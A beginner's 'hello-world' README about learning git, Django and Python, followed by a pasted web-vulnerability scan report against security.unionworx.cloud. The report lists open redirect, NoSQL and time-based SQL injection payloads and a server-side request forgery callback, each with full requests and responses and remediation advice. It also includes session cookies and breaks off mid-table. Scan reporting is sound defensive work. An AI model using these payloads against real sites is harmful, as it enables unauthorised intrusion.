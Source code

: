 # hello-world
Software Engineering Tech exercise with git, django and python
**This is Amoo Olukunle. I am trying to create a new me in software engineering profession**
*The journey is rough and tough, but the destinition is glorious*
>Though time never last, but though people do
>There are so many things to learn in the program
1. Code skill
2. Collaboration
3. Programming
4. Software development
>There are so many tasks to do
- [] Learn github
- [] Learn Django
- [] Learn Python.
 >
You would like to visit the following website for more information, visit
[Django Tutorial](https://www.djangotutorial.com)
[Git Tutorial](https://www.githubtutorial.com)
[Python Tutorial](https://www.pythontutorial.com)
[^1]: This is the beginnig of a great thing.


| \` | Risk                                    | URL                                                                                                                                                                                  | Attack                                                                                                                                                                                                                                                                                                                                                                           | Request                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                      | Response                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                       | Description                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                             | Solution                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                          |
| -- | --------------------------------------- | ------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------ | -------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- | ------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------ | -------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- | ------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- | --------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| 1  | External Redirect                       | [https://security.unionworx.cloud/account/information/notifications](https://security.unionworx.cloud/account/information/notifications)                                             | [http://6708871227364033168.owasp.org](http://6708871227364033168.owasp.org/)                                                                                                                                                                                                                                                                                                    | POST https://security.unionworx.cloud/password/email HTTP/1.1<br>host: security.unionworx.cloud<br>user-agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/116.0.0.0 Safari/537.36 OPR/102.0.0.0<br>pragma: no-cache<br>cache-control: no-cache<br>content-type: application/x-www-form-urlencoded<br>referer: http://6873829442880229062.owasp.org<br>content-length: 75<br>Cookie: XSRF-TOKEN=eyJpdiI6InVvR2hYaUNlQ1NuRHVROEFFQUlmWEE9PSIsInZhbHVlIjoic0Y3MlRmM1JjWVA2alBtbEg0Q3ljU0hNY24xTnVGRmtnODdwSlQ4a3dzcVdyTUlqZWZjQ1ZrMzFoVngxQUJIV29pRktuT2V6U0ZPNjRiRlg4Y2N5dGxLSVBoVEljSXpBWHhGdmFrcmd3TFhXbXBFVHJkcm9oL0ZJelloTUdMa0QiLCJtYWMiOiJmZDY5MzJjNWEyZTg4ZTdhM2RmYzhlMDI2NzJhOTI3OWQzNDY0YzUzNGM0ZmQwOTZlMjBlMDMwODc2NWU1ZjRhIiwidGFnIjoiIn0%3D; ibew_test_22_union_worx_session=eyJpdiI6IlRIWWJmRmlLS1g0K3NrdStIekx4NkE9PSIsInZhbHVlIjoiRU5hUHBUTDN3VW8vbDV5RHliSnNoSlBWT1A5TE9NSmlHc1dBeDExMHFLa0MzSGN5ZjFLTFc5TzVVS2psb2RRcFkzcFVnS3JtRjJCTERHcm41dVozOXNYRzgvQ0ZnVXdJeHp1SGVJN2dVeWx3NTAzMWVXRlhZRFN4dHVvUm51R3AiLCJtYWMiOiJlZmJlYjM1MTQ1MTJiYjRkMTVmNTZjYWJmODM2MGIwOTI5OTUzMzJjYzU3ZjkyZWZmNjEzNTcxNDc0ZmU2MGFmIiwidGFnIjoiIn0%3D<br>                                                                                                                                                                                                                                                                                                                                                                                                               | HTTP/1.1 302 Found<br>Server: nginx<br>Content-Type: text/html; charset=UTF-8<br>Connection: keep-alive<br>Cache-Control: no-cache, private<br>Date: Mon, 25 Mar 2024 20:58:01 GMT<br>Location: http://6873829442880229062.owasp.org<br>Set-Cookie: XSRF-TOKEN=eyJpdiI6IlBQcFNkUVpQRExPUjNpZUNuUjBVT3c9PSIsInZhbHVlIjoiZ0MwTkVLeEVlZ01MZ3hvdEpWK2o4WFMzV3hrUkp3V2F2REx5OU9xWnRoVklNbTFCQjU5NlliZkFLbTZzWkpFekEzVzR6QnFScmUwc1FqdmZFRVphUG5XR3NsRk9jaER5bWpQY0RzdWVNMWd2eUdKTHdSNEMwdGdSZFV0bHA4OHkiLCJtYWMiOiI1MWYzMjE3YzQwNDQ5MWRiNGNmNTA2YWFiNjE5NjI1ZGJiYWQxNTQ3N2UzYzA3NDM4NWVlZTVmN2Q5M2FmZjFjIiwidGFnIjoiIn0%3D; expires=Mon, 25 Mar 2024 22:58:01 GMT; Max-Age=7200; path=/; secure; samesite=lax<br>Set-Cookie: ibew_test_22_union_worx_session=eyJpdiI6Ik9oaEdvMlBUOXhrMGJja3A5TjJYMUE9PSIsInZhbHVlIjoiVU12YnJLZXBYQnlJSTFGa2tqeUJOYTE5Qjl3TTZscWd2MGxtSlYvNUNmdDkrb2xUNENNZ2lDc3FzTHZCR1lQZHFFVjluaGFDY3p1Y1ZSaWpSWFpEdkpwN2lIVTEzcnduSmowL0pDZ2JJZDNKeWk1OWI1YU1rNWk3WGlXMXF0NlAiLCJtYWMiOiIwNzdhMDAzYzFmOGY5MjRiZmJhMmZhMThiZjk2MWFjNjAwNDA2NDZjZmJhMjJhMzcxZjAyYmEyNzg1Zjc0YzlmIiwidGFnIjoiIn0%3D; expires=Mon, 25 Mar 2024 22:58:01 GMT; Max-Age=7200; path=/; httponly; samesite=lax<br>X-Frame-Options: SAMEORIGIN<br>X-XSS-Protection: 1; mode=block<br>X-Content-Type-Options: nosniff<br>content-length: 390                                | URL redirectors represent common functionality employed by web sites to forward an incoming request to an alternate resource. This can be done for a variety of reasons and is often done to allow resources to be moved within the directory structure and to avoid breaking functionality for users that request the resource at its previous location. URL redirectors may also be used to implement load balancing, leveraging abbreviated URLs or recording outgoing links. It is this last implementation which is often used in phishing attacks as described in the example below. URL redirectors do not necessarily represent a direct security vulnerability but can be abused by attackers trying to social engineer victims into believing that they are navigating to a site other than the true destination.      The response contains a redirect in its Location header which allows an external Url to be set.                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                        | Assume all input is malicious. Use an "accept known good" input validation strategy, i.e., use an allow list of acceptable inputs that strictly conform to specifications. Reject any input that does not strictly conform to specifications, or transform it into something that does. Do not rely exclusively on looking for malicious or malformed inputs (i.e., do not rely on a deny list). However, deny lists can be useful for detecting potential attacks or determining which inputs are so malformed that they should be rejected outright.                                                                                                                                                                                                                                                                                                                                                                                                                                                                            |
| 2  | NoSQL Injection - MongoDB               | https://security.unionworx.cloud/                                                                                                                                                    | favicon.ico[$ne]                                                                                                                                                                                                                                                                                                                                                                 | GET https://security.unionworx.cloud/ HTTP/1.1<br>host: security.unionworx.cloud<br>User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:123.0) Gecko/20100101 Firefox/123.0<br>Accept: image/avif,image/webp,\*/\*<br>Accept-Language: en-US,en;q=0.5<br>Referer: https://security.unionworx.cloud/login<br>Connection: keep-alive<br>Cookie: XSRF-TOKEN=eyJpdiI6IkVWdlB4WHFOcUNBcXIzNkU0UnBHWnc9PSIsInZhbHVlIjoiQXJuVVM4OVF6TlBxU3dvVDAvWUVtTjV1dnpsS1pSWTlKSyswMTlPdUJTRUlOSklNbWc4dUozZkE1STFETUIxdHRKTlhucUpIekhGZkxpclhQMVgzdnh0Um9OV3lZSHNhcllPVkdobXVZUW1LTytPVE9acVlJd1U1RVhCTldobmYiLCJtYWMiOiIyZmJkMTBlY2I2ZTM3YjQyYTgwMjkxOWUyNTU4OWM5NzhhYzQxNTYwOTRmMjk3MjZiODBlYWIwYTc5Y2UzOTdhIiwidGFnIjoiIn0%3D; ibew_test_22_union_worx_session=eyJpdiI6IkdYd0VJVnpxZGRpc0RHbis3Uy92M1E9PSIsInZhbHVlIjoieVlPdmlnYzlvOGp5YzF3VUtqSWJKQUl5b3ZoenN3WXJpMEhzTkM0RDhuOVVqUjdYNktQMEJPWkIwdXErZjlmS2pwbVl2VW1CKy9vakNSUWMyYVFCTzJVMjRhTFRtRFRabFlDcDgzd2lBa2FHQndlUm5QU1dUUlpDQUF5bzVpb3YiLCJtYWMiOiIyZmZkMGIwZmRiYjU0MTBkYzQyNmNjNTNiMjc1ZjhjN2Y0MjViOTU4MWQ1NGJjOTY0YWM1NTM3ZDc1NzM3ZDgxIiwidGFnIjoiIn0%3D<br>Sec-Fetch-Dest: image<br>Sec-Fetch-Mode: no-cors<br>Sec-Fetch-Site: same-origin<br>                                                                                                                                                                                                                                                                                                                                                                                                          | HTTP/1.1 200 OK<br>Server: nginx<br>Content-Type: text/html; charset=UTF-8<br>Connection: keep-alive<br>Vary: Accept-Encoding<br>Cache-Control: no-cache, private<br>Date: Mon, 04 Mar 2024 08:30:41 GMT<br>Set-Cookie: XSRF-TOKEN=eyJpdiI6InZFT0hBQm16UVBnN3ZRbVd0M29RQXc9PSIsInZhbHVlIjoiSzJxT1lYeUwzS1BnZ3BtUU52RHdzOFhYcjBNUTJKTk14b09TM01UK3Y4bTZsZUYvcWczTXV6b0JXYmxTNWM2VVE3M3p2WmJzMTBpUmZDQ1dod0RaZGNveGppUGpFc2RwSkMxb2VWNWNiM3R5WU1BSXhoY2psL0VWU050cVdPWkciLCJtYWMiOiI4NTM0MzFjNzNkYWQ4M2U0MWIxNDc0YmFlNDlkYTgyYWM3YjE4M2RiOTRlNzNlN2EwY2M2ZWVlZGNiMGU0NDIwIiwidGFnIjoiIn0%3D; expires=Mon, 04 Mar 2024 10:30:41 GMT; Max-Age=7200; path=/; secure; samesite=lax<br>Set-Cookie: ibew_test_22_union_worx_session=eyJpdiI6ImY4Wmtqa2tmL1RjeFhkMGhBZFYxdmc9PSIsInZhbHVlIjoibW1iUTRUZmJUM29VWUNqVHFDdkNkWE13Uk96WU9DOVlUdjI3d1FsbVl3bzhwMXFra055dTJIaXAxeHJaMG9YMUdwanBIbGcrakgyRHpEMVF6YTRxdy8xNkJWWW5XMG14MVMyZnlwSUVHLzAyRXVIVzdZK1hEL1hWRGNnQ29tYU8iLCJtYWMiOiIxYTZkN2Q5ZTQ0YTVhNTQ3MzUxZmM2NDBmYTE5OGE4ZmUyNWI0Y2E3MWU3NmNhOTQyY2Q5YmNiNzBmNjdlOWMxIiwidGFnIjoiIn0%3D; expires=Mon, 04 Mar 2024 10:30:41 GMT; Max-Age=7200; path=/; httponly; samesite=lax<br>X-Frame-Options: SAMEORIGIN<br>X-XSS-Protection: 1; mode=block<br>X-Content-Type-Options: nosniff<br>content-length: 33888<br>                                                      | MongoDB query injection may be possible.                                                    In some PHP or NodeJS based back end implementations, in order to obtain sensitive data it is possible to inject the "[$ne]" string (or other similar ones) that is processed as an associative array rather than a simple text.<br>Through this, the queries made to MongoDB will always be true.                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                          | Do not trust client side input and escape all data on the server side.<br>Avoid to use the query input directly into the where and group clauses and upgrade all drivers at the latest available version.                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                         |
| 3  | SQL Injection - Oracle - Time Based     | [https://security.unionworx.cloud/img/home/hero-bg-1-lg.png](https://security.unionworx.cloud/img/home/hero-bg-1-lg.png)                                                             | field: [Accept], value [image/avif,image/webp,\*/\* and exists (SELECT  UTL_INADDR.get_host_name('10.0.0.1') from dual union SELECT  UTL_INADDR.get_host_name('10.0.0.2') from dual union SELECT  UTL_INADDR.get_host_name('10.0.0.3') from dual union SELECT  UTL_INADDR.get_host_name('10.0.0.4') from dual union SELECT  UTL_INADDR.get_host_name('10.0.0.5') from dual) -- ] | GET https://security.unionworx.cloud/img/home/hero-bg-1-lg.png HTTP/1.1<br>host: security.unionworx.cloud<br>User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:123.0) Gecko/20100101 Firefox/123.0<br>Accept: image/avif,image/webp,\*/\* and exists (SELECT  UTL_INADDR.get_host_name('10.0.0.1') from dual union SELECT  UTL_INADDR.get_host_name('10.0.0.2') from dual union SELECT  UTL_INADDR.get_host_name('10.0.0.3') from dual union SELECT  UTL_INADDR.get_host_name('10.0.0.4') from dual union SELECT  UTL_INADDR.get_host_name('10.0.0.5') from dual) --<br>Accept-Language: en-US,en;q=0.5<br>Referer: https://security.unionworx.cloud/resources/css/main.css?id=ad4a6397d15fe88f1f651f12fb7f52ad<br>Connection: keep-alive<br>Cookie: XSRF-TOKEN=eyJpdiI6IkNKSHBvSXpxenpHWVpvN1JZUlFZUUE9PSIsInZhbHVlIjoiYW9sTmZNS2ZFZC9CN1pWcXFoT1hoeG5rOFdYUUI2di9pT1FPZWtSeUNjWFZnNVpQcUtPNUdXUXdpS0kvbU44SjVsamUydHVaQ0xZa2x3cXUxR1RaNCtKQ1lSR0J0aEJLVFZ2eTRFdklPUnhWbFkyUlFKMVprSXpYYnJ1RTJsWjUiLCJtYWMiOiJhYzlkNmQ0M2ZmMzg5N2EwYTc5ZDQwYjcwYTI4ZjUyNjJjMzQ3MTA1OGI1YjVkMmYxMDE5N2RhYjQxOTMwMDFmIiwidGFnIjoiIn0%3D; ibew_test_22_union_worx_session=eyJpdiI6IjVuQU1SZTFFVDdDeUFRdVRKemF3bkE9PSIsInZhbHVlIjoiV3JpNHExKy9xcmdZa1dOWjFCZWhuS1JBV3h4UkFsVTdPY1hvZE01bVcvOUhUdXoxc2h6VWUyc0pLZ045S2hMRW91eXNGL2VIcWFvVHYxQ1B1bkk1RWNicHc4OHJLd1NTT05tNUZEd0czU0Zua0VQOUowelBtZUlkVG4rK2xIcWciLCJtYWMiOiI4ZTIyMGY3NzE5NzcwZDg5NzUzODBkMDFjNjIwYWE3ZTkxNDg0NjVkZTc5YjNlNjU4ZmU2Mjg0NGU0OWNkZGQ1IiwidGFnIjoiIn0%3D<br>Sec-Fetch-Dest: image<br>Sec-Fetch-Mode: no-cors<br>Sec-Fetch-Site: same-origin<br> | HTTP/1.1 200 OK<br>Server: nginx<br>Date: Mon, 04 Mar 2024 15:19:17 GMT<br>Content-Type: image/png<br>Content-Length: 4378350<br>Last-Modified: Sat, 02 Mar 2024 02:01:32 GMT<br>Connection: keep-alive<br>ETag: "65e2887c-42ceee"<br>X-Frame-Options: SAMEORIGIN<br>X-XSS-Protection: 1; mode=block<br>X-Content-Type-Options: nosniff<br>Accept-Ranges: bytes<br>                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                            | SQL injection may be possible.                                                                          The query time is controllable using parameter value [image/avif,image/webp,\*/\* and exists (SELECT  UTL_INADDR.get_host_name('10.0.0.1') from dual union SELECT  UTL_INADDR.get_host_name('10.0.0.2') from dual union SELECT  UTL_INADDR.get_host_name('10.0.0.3') from dual union SELECT  UTL_INADDR.get_host_name('10.0.0.4') from dual union SELECT  UTL_INADDR.get_host_name('10.0.0.5') from dual) -- ], which caused the request to take [8,459] milliseconds, when the original unmodified query with value [image/avif,image/webp,\*/\*] took [422] milliseconds                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                      | Do not trust client side input, even if there is client side validation in place.                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                 |
| 4  | SQL Injection - SQLite                  | [https://security.unionworx.cloud/resources/js/back-end/vendor/jquery-ui/jquery-ui.min.js](https://security.unionworx.cloud/resources/js/back-end/vendor/jquery-ui/jquery-ui.min.js) | case randomblob(10000000) when not null then 1 else 1 end                                                                                                                                                                                                                                                                                                                        | GET https://security.unionworx.cloud/resources/js/back-end/vendor/jquery-ui/jquery-ui.min.js HTTP/1.1<br>host: security.unionworx.cloud<br>User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:123.0) Gecko/20100101 Firefox/123.0<br>Accept: \*/\*<br>Accept-Language: en-US,en;q=0.5<br>Referer: https://security.unionworx.cloud/account/information/general<br>Connection: keep-alive<br>Cookie: XSRF-TOKEN=eyJpdiI6InJjQ1BZdXdUQWtwR3o5OGFJcXFOQ2c9PSIsInZhbHVlIjoiT29QOHVCbVc4bWllRlBQT1E1THViOWx6WnRlYUFJZW80VXdrNXlJOXpIaHRLcktyaDFpNkdleEZoQ01EU0hQRDJRcFJtamo5TlZkSm42WFlRakxSbzVXYWFRYmUrVDAyZGpwQ3ZmSThmV1ZzNWZLMzA1UEJ6NnprTXNzNE51MnkiLCJtYWMiOiJjZjZhYjRiZjE1ZDExOThhNmYzM2ZjMmIyNTBmMWJkZjcyODMyY2JiZjkyYzM4NzY1NGRjYWUzZDhmOTA4OWM0IiwidGFnIjoiIn0%3D; ibew_test_22_union_worx_session=eyJpdiI6IkhTOWFma2VvMSswVHQ4OTBBR3lFQmc9PSIsInZhbHVlIjoiTHVuNGIrT1BPVjZlUkdzTUFKcysvd216ZlgxemhmSVhRenlwdjRzSER5bWRSYkNSelYyTUM2RXpFRjJGN1N5OTN6aUQ5UTdZZ3haSFc5bkZEbm5kQ0FzNGlWZmZ6TkVQTDZsYXplZnlGUi9ZVERuMzRkRWpvdE5NNDh2azZPaTEiLCJtYWMiOiIxMDViNWE5NGUyYTc5MWZiZmNiZDhhYjQwMTI3NjMyZWQ3YTExYmRjOGFiYzAxMTFiNmE5NWIxYWE4MGUzYjBhIiwidGFnIjoiIn0%3D; \_ga=GA1.2.10702593.1709819271; \_gid=GA1.2.2119953206.1709819271; \_gat_gtag_UA_132022492_1=1<br>Sec-Fetch-Dest: script<br>Sec-Fetch-Mode: case randomblob(1000000) when not null then 1 else 1 end<br>Sec-Fetch-Site: same-origin<br>                                                                                                                                                                                                 | HTTP/1.1 200 OK<br>Server: nginx<br>Date: Thu, 07 Mar 2024 21:31:51 GMT<br>Content-Type: application/javascript; charset=utf-8<br>Content-Length: 36675<br>Last-Modified: Sat, 02 Mar 2024 02:01:32 GMT<br>Connection: keep-alive<br>Vary: Accept-Encoding<br>ETag: "65e2887c-8f43"<br>X-Frame-Options: SAMEORIGIN<br>X-XSS-Protection: 1; mode=block<br>X-Content-Type-Options: nosniff<br>Accept-Ranges: bytes<br>                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                           | SQL injection may be possible.                                                                                                                                                                    The query time is controllable using parameter value [case randomblob(10000000) when not null then 1 else 1 end ], which caused the request to take [471] milliseconds, parameter value [case randomblob(100000000) when not null then 1 else 1 end ], which caused the request to take [646] milliseconds, when the original unmodified query with value [ZAP] took [360] milliseconds.                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                              | Do not trust client side input, even if there is client side validation in place.<br>In general, type check all data on the server side.<br>If the application uses JDBC, use PreparedStatement or CallableStatement, with parameters passed by '?'                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                               |
| 5  | Server Side Request Forgery             | [https://security.unionworx.cloud/password/email](https://security.unionworx.cloud/password/email)                                                                                   | [http://192.168.153.1:60742/56a53f92-42b7-4763-89c8-1086a5dc160d](http://192.168.153.1:60742/56a53f92-42b7-4763-89c8-1086a5dc160d)                                                                                                                                                                                                                                               | POST https://security.unionworx.cloud/password/email HTTP/1.1<br>host: security.unionworx.cloud<br>user-agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/116.0.0.0 Safari/537.36 OPR/102.0.0.0<br>pragma: no-cache<br>cache-control: no-cache<br>content-type: application/x-www-form-urlencoded<br>referer: http://192.168.153.1:60742/56a53f92-42b7-4763-89c8-1086a5dc160d<br>content-length: 75<br>Cookie: XSRF-TOKEN=eyJpdiI6IkJ0c0ZEZVpqbFphcGVGL0tZSWRDbUE9PSIsInZhbHVlIjoiNm42TzkwVTRJYjFMZ0F4NEwrTnZtcXBYT0RVcDRtT2dRb2RDTFU3QXE5eXJMY1M2Y2tMWFlXSmhnd3RUWXA1TGEraWI3dEZjTWFiQlBtbU9SRmEyYmYvcEFybXNiTVlnOVBIV00vYlphTHo0YWxQUE1LZjJ1WkRZdUFwU3dyc1IiLCJtYWMiOiJlYmM1NGI1NTM5YTA3Y2NhZTJkNzEyNGFkZjliYmQ2Y2IxOThkOTM3NjhlM2ZiMzE5Y2E3YjMwNTNmM2UxYTUzIiwidGFnIjoiIn0%3D; ibew_test_22_union_worx_session=eyJpdiI6Im16c0w3TnBkdWRjUndsZmYvdVk0Snc9PSIsInZhbHVlIjoieFVRVmQzdWtpdnM0TWg2S2F1TkRma01QbTJQYVJoTm9lSFBUVWFqQ2dLbm5wS2lhSVljSUlBL1Y5UUI5SlBGNjMyZEtnWTFEcndTOUtXeTVobnNYcnJTWGJFYmhQcW52N09hbitsbnJJbmFYOS8xZ1NOdkhlZkVkZGw1MEh1WnEiLCJtYWMiOiJjZDM2ZTJhZGZiNzA4ZTQ2OGIwZmNjNDQ0MDg1MmY0MTk2YTdmYjM1NTNmODdlOGRmMjUzZjEzZTM3MjY5MDk2IiwidGFnIjoiIn0%3D<br>                                                                                                                                                                                                                                                                                                                                                                                    | HTTP/1.1 302 Found<br>Server: nginx<br>Content-Type: text/html; charset=UTF-8<br>Connection: keep-alive<br>Cache-Control: no-cache, private<br>Date: Thu, 07 Mar 2024 17:22:28 GMT<br>Location: http://192.168.153.1:60742/56a53f92-42b7-4763-89c8-1086a5dc160d<br>Set-Cookie: XSRF-TOKEN=eyJpdiI6IkcxWlNwQ3l5clB6dU5PM1NvblVnRlE9PSIsInZhbHVlIjoid0M4ZmtIM0l5WWVCWGpTMDUrdWNnU1pRTExqa0FBY2toVTgyWjN6UGpmaTA1aHN2bFduT1Q0RzRibFhnSkJxc1NKdDFML1NpNFRDWUxLaCtkYWh0Z3BETVhRMVVYQUl1USs2QjhNTHZyazlNc2d2Tjg5YXlEOUdQcW94VkRNY2kiLCJtYWMiOiJiOGNhZmNiYTA2MWMwM2FjOWI2YTJlOWZlMDg4Y2Y0OWE2N2VhNWFlYjI2M2Q1NjA1MWQ3NzNiMzczY2JlMGI0IiwidGFnIjoiIn0%3D; expires=Thu, 07 Mar 2024 19:22:28 GMT; Max-Age=7200; path=/; secure; samesite=lax<br>Set-Cookie: ibew_test_22_union_worx_session=eyJpdiI6IjN6NW9nRm1IL20wV01OcVh6L2lrd3c9PSIsInZhbHVlIjoibE5IK1Y1cC9DSWRVYTFEMzFFMHVDNjZlclBENnVNc2dZTFk1QVo0S2hHZUZxK3JpM01FMWx6MTdqb1VnUExCcm5DV2lFU1BGUmpqQnl5NEZPMGc1RkxjQWRnS1pjQ0E4NlM2VmRqeGgrNVNpY2RkcWFEZ0JuNi9OVE5VMWdiTDIiLCJtYWMiOiJhZjQxNTMxMTYyNWM3YWNhZmI2MjRiOTZlOTA3YjlhN2UzYjQ2ZDdkYWM2ODAzOTkxOGFkNTdkNDQ1ODZkMGZhIiwidGFnIjoiIn0%3D; expires=Thu, 07 Mar 2024 19:22:28 GMT; Max-Age=7200; path=/; httponly; samesite=lax<br>X-Frame-Options: SAMEORIGIN<br>X-XSS-Protection: 1; mode=block<br>X-Content-Type-Options: nosniff<br>content-length: 498<br> | The web server receives a remote address and retrieves the contents of this URL, but it does not sufficiently ensure that the request is being sent to the expected destination.                                                   Received out-of-band interaction [GET http://192.168.153.1:60742/f215f864-41c1-4036-8b4b-52f367751619 HTTP/1.1]<br>Request<br>GET http://192.168.153.1:60742/f215f864-41c1-4036-8b4b-52f367751619 HTTP/1.1<br>host: 192.168.153.1:60742<br>User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:123.0) Gecko/20100101 Firefox/123.0<br>Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,\*/\*;q=0.8<br>Accept-Language: en-US,en;q=0.5<br>Referer: http://192.168.153.1:60742/f215f864-41c1-4036-8b4b-52f367751619<br>Origin: https://security.unionworx.cloud<br>Connection: keep-alive<br>Cookie: XSRF-TOKEN=eyJpdiI6IjhoWjMxdUtaQkhOdStBUk1XNmtENWc9PSIsInZhbHVlIjoiSlFmclpUaUlOT0krSGtKN2tOQ1M0N1ArM3JuVkhaZ3E2cjdtVW9FVXR4Ni9JV1ptNE41QmlMdnQ4ZVZRd215VXNUQ3hqdDZOazF2MVJtd3E1M2dTZVlWWlF1eStETlNmWCtMUmZCU01DdVFjMy9OdDBVa2hoNXMvaE9MKzBpcVkiLCJtYWMiOiJkNzNhZGYzNzA2ZGQ2MWNjOGNiZTNkYzZlOGM3MjkyMzFkMWZmZTM4NjIxZTljZWUzOTgyOGVhYzUxMTI3NjZhIiwidGFnIjoiIn0%3D; 